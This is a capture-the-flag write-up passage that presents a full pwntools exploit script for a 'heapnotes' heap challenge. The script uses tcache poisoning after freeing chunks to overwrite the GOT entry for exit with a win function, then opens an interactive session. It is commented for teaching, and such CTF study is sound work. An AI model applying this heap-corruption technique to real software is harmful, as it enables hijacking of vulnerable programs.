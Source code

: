 
## Exploit Script
This is the full exploit script for the challenge

```python
from pwn import *

exe = context.binary = ELF(args.EXE or './heapnotes', checksec=False)

io = remote("chal.nbctf.com", 30172)

def create(data):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"data: ", data)

def read(idx):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"): ", str(idx).encode())

def update(idx, data):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"): ", str(idx).encode())
    io.sendlineafter(b"data: ", data)

def delete(idx):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"): ", str(idx).encode())

# Put 2 chunks into the tcache by allocating and freeing them
create(b"A"*0x10)
create(b"B"*0x10)
delete(0)
delete(1)

# Make the first chunk in the tcache point to the GOT address of exit next
update(1, pack(exe.got.exit))

# Allocate the "normal" chunk in the tcache,
# which points to the GOT address of exit as the next chunk
create(b"A"*0x10)

# The next chunk we allocate will be the GOT address of exit,
# so the data we put in it will overwrite the GOT entry for exit,
# thus we overwrite exit with the address of win, so that win is called if exit is called
create(pack(exe.sym.win))

# Choose option 5, which calls exit, but because of our overwrite actually calls win
io.sendlineafter(b"> ", b"5")

io.interactive()
```
{: file="exploit.py" }
